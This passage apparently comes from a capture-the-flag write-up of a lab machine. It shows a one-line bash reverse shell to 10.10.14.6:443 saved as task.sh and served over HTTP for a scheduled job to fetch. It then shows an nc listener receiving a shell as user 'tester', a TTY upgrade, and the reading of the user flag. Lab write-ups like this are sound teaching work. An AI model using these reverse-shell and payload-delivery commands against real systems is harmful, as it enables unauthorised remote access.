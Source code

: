 

I'll create a simple reverse shell as `task.sh`:



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.6/443 0>&1



And I'll start a Python web server in the directory with `task.sh`. When
the minute rolls over, there's a hit on the server:



    oxdf@hacky$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.11.119 - - [28/Sep/2021 16:08:02] "GET /task.sh HTTP/1.1" 200 -



And then a reverse shell as tester:



    oxdf@hacky$ nc -lnvp 443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.11.119.
    Ncat: Connection from 10.10.11.119:51820.
    bash: cannot set terminal process group (15402): Inappropriate ioctl for device
    bash: no job control in this shell
    tester@overflow:~$ 



I'll upgrade my shell:



    tester@overflow:~$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    tester@overflow:~$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    tester@overflow:~$ 



And grab `user.txt`:



    tester@overflow:~$ cat user.txt
    c7cbbf3d************************

